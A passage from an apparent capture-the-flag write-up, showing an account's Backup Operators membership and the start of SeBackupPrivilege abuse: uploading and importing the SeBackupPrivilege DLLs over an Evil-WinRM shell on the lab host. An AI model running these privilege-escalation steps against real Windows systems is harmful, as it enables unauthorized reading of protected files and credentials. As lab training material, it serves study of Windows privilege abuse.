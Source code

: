     Password last set            2/23/2020 10:54:48 AM
    Password expires             Never
    Password changeable          2/24/2020 10:54:48 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   6/9/2020 5:27:18 PM

    Logon hours allowed          All

    Local Group Memberships      *Backup Operators     *Remote Management Use
    Global Group memberships     *Domain Users
    The command completed successfully.



[Backup
Operators](https://www.backup4all.com/what-are-backup-operators-kb.md)
is a default Windows group that is designed to backup and restore files
on the computer using certain methods to read and write all (or most)
files on the system.

### Copy-FileSeBackupPrivilege

[This repo](https://github.com/giuliano108/SeBackupPrivilege) has a nice
set of PowerShell tools for abusing the `SeBackupPrivilege`. I'll clone
it, and then I'll need to upload two files to Blackfields:



    *Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
    Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll to C:\programdata\SeBackupPrivilegeCmdLets.dll

                                                                 
    Data: 16384 bytes of 16384 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> upload /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
    Info: Uploading /opt/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll to C:\programdata\SeBackupPrivilegeUtils.dll

                                                                 
    Data: 21844 bytes of 21844 bytes copied

    Info: Upload successful!



Now I'll import them into my current session:



    *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeCmdLets.dll
    *Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeUtils.dll

